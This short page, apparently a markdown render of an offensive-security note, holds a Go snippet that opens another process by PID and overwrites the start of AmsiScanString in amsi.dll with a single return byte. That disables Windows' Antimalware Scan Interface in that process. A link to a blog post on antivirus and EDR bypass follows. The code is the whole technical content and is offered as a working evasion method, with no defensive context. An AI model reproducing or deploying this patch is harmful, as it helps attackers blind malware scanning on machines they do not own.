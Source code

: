 # Go

```go
pid := uint32(<PID>)
amsidll, _ := syscall.LoadLibrary("amsi.dll")
amsiScanString, _ := syscall.GetProcAddress(amsidll, "AmsiScanString")
patch := []byte{0xc3}

pHandle := windows.OpenProcess(
	windows.PROCESS_VM_WRITE|windows.PROCESS_VM_OPERATION,
	false,
	pid
)

var numberOfBytesWritten uintptr
err := windows.WriteProcessMemory(
	pHandle,
	amsiScanString,
	&patch[0],
	uintptr(len(patch)),
	&numberOfBytesWritten
)
```

---
## References

### vaadata

- [vaadata: Antivirus and EDR Bypass Techniques](https://www.vaadata.com/blog/antivirus-and-edr-bypass-techniques/)